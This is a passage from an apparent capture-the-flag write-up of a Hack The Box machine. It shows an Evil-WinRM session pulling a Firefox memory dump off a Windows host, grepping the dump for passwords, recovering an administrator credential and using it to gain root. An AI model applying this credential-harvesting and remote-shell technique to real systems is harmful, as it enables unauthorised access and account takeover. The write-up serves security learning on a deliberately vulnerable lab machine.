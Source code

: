 ```
*Evil-WinRM* PS C:\Users\Chase\Documents> download firefox.exe_200425_121800.dmp
Info: Downloading C:\Users\Chase\Documents\firefox.exe_200425_121800.dmp to firefox.exe_200425_121800.dmp
```

While running that in background, I did `strings` on that to find any password available.
```
root@w0lf:~/hacking-tools/evil-winrm# strings firefox.exe_200425_121800.dmp | grep password
MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
RG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
```
It looks like admin password so try login with them.

`administrator : 4dD!5}x/re8]FBuZ`<br/>
![cd9776083dc7761c1590362976cb6840.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-heist/af015a897a024595810aa1d045756661.png)<br/>
We own the Root!!

















